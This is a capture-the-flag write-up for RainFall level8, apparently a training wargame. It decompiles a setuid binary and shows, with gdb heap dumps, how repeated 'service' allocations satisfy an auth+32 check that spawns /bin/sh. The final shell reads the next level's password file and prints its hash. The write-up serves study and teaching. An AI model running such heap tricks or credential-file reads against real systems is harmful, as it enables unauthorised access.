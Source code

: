 ## Step 1: Static & Dynamic Analysis

```c
08048564    int32_t main(int32_t argc, char** argv, char** envp)
08048564    {
08048564        while (true)
08048591        {
08048591            uint32_t* const fp;
08048591            printf("%p, %p \n", auth, service, fp);
080485b3            bool c_1 = false;
080485b3            void buf;
080485b3            bool z_1 = !fgets(&buf, 128, stdin);
080485b3            
080485b5            if (z_1)
080485b5                break;
080485b5            
080485c6            int32_t i = 5;
080485cb            void* buf_cpy = &buf;
080485cd            char const* const auth_str = "auth ";
080485cd            
080485cf            while (i)
080485cf            {
080485cf                char char_buff = *(uint8_t*)buf_cpy;
080485cf                char const char_auth = *(uint8_t*)auth_str;
080485cf                c_1 = char_buff < char_auth;
080485cf                z_1 = char_buff == char_auth;
080485cf                buf_cpy += 1;
080485cf                auth_str = &auth_str[1];
080485cf                i -= 1;
080485cf                
080485cf                if (!z_1)
080485cf                    break;
080485cf            }
080485cf            
080485e0            bool c_2 = false;
080485e0            bool z_2 = !(int32_t)((!z_1 && !c_1) - c_1);
080485e0            
080485e2            if (z_2)
080485e2            {
080485f0                auth = malloc(4);
080485fa                **(uint32_t**)&auth = 0;
08048616                int32_t i_1 = -1;
0804861a                void var_8b;
0804861a                void* edi_1 = &var_8b;
0804861a                
0804861c                while (i_1)
0804861c                {
0804861c                    bool cond:4_1 = 0 != *(uint8_t*)edi_1;
0804861c                    edi_1 += 1;
0804861c                    i_1 -= 1;
0804861c                    
0804861c                    if (!cond:4_1)
0804861c                        break;
0804861c                }
0804861c                
08048625                c_2 = ~i_1 - 1 < 0x1e;
08048625                z_2 = ~i_1 == 0x1f;
08048625                
08048628                if (z_2 || c_2)
0804863d                    strcpy(auth, &var_8b);
080485e2            }
080485e2            
0804864d            int32_t i_2 = 5;
08048652            void* esi_1 = &buf;
08048654            char const* const edi_2 = "reset";
08048654            
08048656            while (i_2)
08048656            {
08048656                char temp2_1 = *(uint8_t*)esi_1;
08048656                char const temp3_1 = *(uint8_t*)edi_2;
08048656                c_2 = temp2_1 < temp3_1;
08048656                z_2 = temp2_1 == temp3_1;
08048656                esi_1 += 1;
08048656                edi_2 = &edi_2[1];
08048656                i_2 -= 1;
08048656                
08048656                if (!z_2)
08048656                    break;
08048656            }
08048656            
08048667            bool c_3 = false;
08048667            bool z_3 = !(int32_t)((!z_2 && !c_2) - c_2);
08048667            
08048669            if (z_3)
08048673                free(auth);
08048673            
08048683            int32_t i_3 = 6;
08048688            void* esi_2 = &buf;
0804868a            char const* const edi_3 = "service";
0804868a            
0804868c            while (i_3)
0804868c            {
0804868c                char temp4_1 = *(uint8_t*)esi_2;
0804868c                char const temp5_1 = *(uint8_t*)edi_3;
0804868c                c_3 = temp4_1 < temp5_1;
0804868c                z_3 = temp4_1 == temp5_1;
0804868c                esi_2 += 1;
0804868c                edi_3 = &edi_3[1];
0804868c                i_3 -= 1;
0804868c                
0804868c                if (!z_3)
0804868c                    break;
0804868c            }
0804868c            
0804869d            bool c_4 = false;
0804869d            bool z_4 = !(int32_t)((!z_3 && !c_3) - c_3);
0804869d            
0804869f            if (z_4)
0804869f            {
080486a5                c_4 = &buf >= 0xfffffff9;
080486a5                z_4 = &buf == 0xfffffff9;
080486b0                void s;
080486b0                service = strdup(&s);
0804869f            }
0804869f            
080486c0            int32_t i_4 = 5;
080486c5            void* esi_3 = &buf;
080486c7            char const* const edi_4 = "login";
080486c7            
080486c9            while (i_4)
080486c9            {
080486c9                char temp7_1 = *(uint8_t*)esi_3;
080486c9                char const temp8_1 = *(uint8_t*)edi_4;
080486c9                c_4 = temp7_1 < temp8_1;
080486c9                z_4 = temp7_1 == temp8_1;
080486c9                esi_3 += 1;
080486c9                edi_4 = &edi_4[1];
080486c9                i_4 -= 1;
080486c9                
080486c9                if (!z_4)
080486c9                    break;
080486c9            }
080486c9            
080486dc            if (!(int32_t)((!z_4 && !c_4) - c_4))
080486dc            {
080486ec                if (!*(uint32_t*)(auth + 32))
080486ec                {
0804870b                    fp = stdout;
08048722                    fwrite("Password:\n", 1, 10, fp);
080486ec                }
080486ec                else
080486f5                    system("/bin/sh");
080486dc            }
08048591        }
08048591        
08048738        return 0;
08048564    }
```

### Explanation

The binary expects one of these four specific strings as input: `auth `, `reset`, `service`, and `login`. For our exploit, we will only focus on `auth `, `service`, and `login`.

The final check before spawning a shell occurs in the `login` part. It verifies that the value at `auth + 32` is not null. The `auth` variable is a global variable initially set to null. When the user inputs `auth `, the binary allocates `4` bytes of memory and sets the pointer to this allocated memory in the `auth` variable. It then uses `strcpy()` to copy a `\n` into this memory.

Our goal is to ensure that `auth + 32` is set to a non-null value to pass the check and spawn the shell.

To achieve this, we leverage the `service` input functionality. When the user inputs `service`, the binary allocates another block of memory directly after the previous allocation and also stores a `\n` in it.

```asm
(gdb) x/12wx auth
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00020ff1
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
```

After providing the `auth ` input, we can see that the first block contains `0x0000000a` (representing `\n`).

```asm
(gdb) x/12wx auth
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0000000a      0x00000000      0x00000000      0x00020fe1
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
```

Next, when `service` is given as input, we can observe that another memory block is allocated immediately after the `auth ` block, aligned to `16-byte` boundaries.

```asm
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a028:      0x0000000a      0x00000000      0x00000000      0x00020fd1
```

By providing `service` as input one more time, we ensure that `auth + 32` is no longer null. Now, when we input `login`, the binary performs the check, finds that `auth + 32` is set, and spawns a shell.

```bash
login
$ id
uid=2008(level8) gid=2008(level8) groups=2008(level8),100(users)
```

## Step 2: Exploiting the Binary

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
